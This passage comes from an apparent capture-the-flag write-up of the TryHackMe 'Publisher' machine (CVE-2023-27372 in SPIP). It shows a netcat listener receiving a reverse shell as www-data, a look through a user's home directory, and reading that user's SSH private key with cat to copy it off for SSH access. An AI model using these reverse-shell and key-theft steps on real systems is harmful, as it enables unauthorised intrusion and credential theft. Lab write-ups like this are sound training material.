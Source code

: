 ```
┌──(kali㉿kali)-[~/Desktop/THM/Publisher/CVE-2023-27372]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.17.94.32] from (UNKNOWN) [10.10.101.39] 59852
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@41c976e507f8:/home/think/spip/spip$ whoami
whoami
www-data
www-data@41c976e507f8:/home/think/spip/spip$ 
```
With the reverse shell obtained, I started looking over the files and directories. The first thing that I check is the `/home` directory, to check how many users are present on the machine. This machine has only one user `thin`.

I looked for files on /home/think
```
www-data@41c976e507f8:/home/think$ ls -a
ls -a
.
..
.bash_history
.bash_logout
.bashrc
.cache
.config
.gnupg
.local
.profile
.python_history
.ssh
.viminfo
spip
user.txt
```
There is the first flag, user.txt.

Then I looked into the `ssh` folder
```
www-data@41c976e507f8:/home/think$ cd .ssh
cd .ssh
www-data@41c976e507f8:/home/think/.ssh$ ls
ls
authorized_keys
id_rsa
id_rsa.pub
```

As the id_rsa is available, I tried downloading it onto my machine. And when I failed to do this, I realised that I could simply use the `cat` command to see the content of id_rsa, and copy it my machine.

So I did that and then started to establish an SSH connection, and again failed, only to realise that I forgot to change the permissions of the file (change to 600, i.e. read and write only to the user)
